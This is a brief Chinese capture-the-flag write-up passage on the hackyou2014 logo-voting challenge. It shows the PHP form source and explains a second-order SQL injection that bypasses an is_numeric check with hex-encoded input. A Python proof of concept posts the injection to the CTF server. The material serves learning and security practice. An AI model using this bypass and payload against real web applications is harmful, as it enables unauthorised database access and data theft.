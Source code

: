 ```
<p>Help us to choose the best logo!</p>
<form action="index.php" method="POST">
<table border="1" cellspacing="5">
<tr>
<?php
$q = mysql_query('SELECT * FROM picture');
while ($r = mysql_fetch_array($q)) {
    echo '<td><img src="./images/'.$r['image'].'"><div align="center">'.$r['title'].'<br><input type="radio" name="id" value="'.$r['id'].'"></div></td>';
}
?>
</tr>
</table>
<p>Your vote:
<select name="vote">
<option value="1">1</option>
<option value="2">2</option>
<option value="3">3</option>
<option value="4">4</option>
<option value="5">5</option>
</select></p>
<input type="submit" name="submit" value="Submit">
</form>
</body>
</html>
<!-- TODO: remove index.phps -->

```

其中id是被is_numeric过滤后，插入到vote表里的，可以用十六进制或者二进制绕过is_numeric,把注入查询语句插入到vote表里，然后又从vote表里取出，形成二次注入。

POC如下：

```
#!/usr/bin/env python
import requests
import binascii
import sys

def hack(inject):
    vul={'id':inject,'vote':3,'submit':1}
    req=requests.post('http://hackyou2014tasks.ctf.su:10080/index.php',data=vul)
    print req.content

if __name__=="__main__":
    hack("0x" + binascii.hexlify(sys.argv[1]))

```

效果图如2

![2014012112121549265.png](http://drops.javaweb.org/uploads/images/967be60175fa6eac096273869cd5befc62b73d58.jpg)

